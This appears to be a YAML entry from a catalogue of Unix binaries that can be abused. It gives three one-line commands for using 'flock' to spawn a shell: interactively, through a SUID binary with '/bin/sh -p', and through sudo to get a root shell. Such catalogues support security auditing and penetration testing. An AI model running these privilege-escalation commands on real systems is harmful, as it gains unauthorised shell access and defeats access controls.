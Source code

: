 ```yaml
---
functions:
  execute-interactive:
  - code: flock -u / /bin/sh
  suid-enabled:
  - code: "./flock -u / /bin/sh -p"
  sudo-enabled:
  - code: sudo flock -u / /bin/sh
---
```


